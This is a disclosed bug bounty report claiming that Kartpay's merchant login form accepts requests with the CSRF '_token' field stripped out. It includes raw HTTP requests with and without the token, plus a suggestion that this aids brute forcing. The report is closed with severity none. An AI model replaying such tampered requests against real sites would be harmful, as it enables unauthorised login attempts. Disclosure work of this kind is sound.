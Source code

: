 # Bypass _token in forms [Merchant.Kartpay.com ]

## Report Details
- **Report ID**: 642643
- **URL**: https://hackerone.com/reports/642643
- **State**: Closed
- **Severity**: none
- **Submitted**: 2019-07-13T21:45:32.663Z
- **Disclosed**: 2019-10-09T05:34:18.970Z

## Reporter
- **Username**: zxdrrr
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kartpay

## Vulnerability Information
## Summary:
I found a issue in froms related to the Merchant.Kartpay.com domain and it allow to bypassing _token.

## Browsers Verified In:

  *  Firefox 68

## Steps To Reproduce:

  1. Go To Login or any form (https://merchant.kartpay.com/merchant_login)
  2. Fill form and Intercept in burpsuite next click on LOGIN
  3. Request :

```
POST /login HTTP/1.1
Host: merchant.kartpay.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://merchant.kartpay.com/merchant_login
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Connection: close
Cookie: laravel_session=eyJpdiI6ImU3TkIxd21yXC81SE1rNHlSSnExV3JBPT0iLCJ2YWx1ZSI6IkFmYUMrTEJzXC8rM1VoaWVpUldJN1RGV0doUkZPQ09laThzSHo0dEI4cjgraFhsYWJCSThwK3FkYUNnbjA1OXhNIiwibWFjIjoiNWFkY2E4YmVmYzM4NWYwMzAxN2MwMDZiMjg1MTJlYTdjMGExNDMzMmU3MDk3YjRhMTk4OTg4YmMzYzFjMjk4ZSJ9; XSRF-TOKEN=eyJpdiI6Ink5TmNERjF6UHJnV2NuMjQ5dVB2YUE9PSIsInZhbHVlIjoicEI5SFpxZzd3bkhYeDRBZlNyZWRZZWpcL1wvQTkrR1llbENCUExFYmh0Mk9uaXNxSkp4MTg0d2xHM0NYdVVQRk1cLyIsIm1hYyI6ImM4ODFiMzFkZGY5MzBmNDhiNmU0ZGYxODM3YzZiYmQ0Y2E0ZDkwOGY2MWU1Y2U4ZGNmMGY4Yzg5ZGE1MDk1OWMifQ%3D%3D
Upgrade-Insecure-Requests: 1

_token=877NUN0kNyUQUP8aRDpdjbHnHteOKr6PvfxMsbv4&merchant_id=123456789&email=test%40gmail.com&password=P%40ssw0rd
```
Remove _toekn in request like this and forward request:
```
POST /login HTTP/1.1
Host: merchant.kartpay.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://merchant.kartpay.com/merchant_login
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Connection: close
Cookie: laravel_session=eyJpdiI6ImU3TkIxd21yXC81SE1rNHlSSnExV3JBPT0iLCJ2YWx1ZSI6IkFmYUMrTEJzXC8rM1VoaWVpUldJN1RGV0doUkZPQ09laThzSHo0dEI4cjgraFhsYWJCSThwK3FkYUNnbjA1OXhNIiwibWFjIjoiNWFkY2E4YmVmYzM4NWYwMzAxN2MwMDZiMjg1MTJlYTdjMGExNDMzMmU3MDk3YjRhMTk4OTg4YmMzYzFjMjk4ZSJ9; XSRF-TOKEN=eyJpdiI6Ink5TmNERjF6UHJnV2NuMjQ5dVB2YUE9PSIsInZhbHVlIjoicEI5SFpxZzd3bkhYeDRBZlNyZWRZZWpcL1wvQTkrR1llbENCUExFYmh0Mk9uaXNxSkp4MTg0d2xHM0NYdVVQRk1cLyIsIm1hYyI6ImM4ODFiMzFkZGY5MzBmNDhiNmU0ZGYxODM3YzZiYmQ0Y2E0ZDkwOGY2MWU1Y2U4ZGNmMGY4Yzg5ZGE1MDk1OWMifQ%3D%3D
Upgrade-Insecure-Requests: 1

merchant_id=123456789&email=test%40gmail.com&password=P%40ssw0rd
```
request was do successfully.

## Impact

Attacke can bypass _token to do some work like brute force and such as...

## Attachments
No attachments
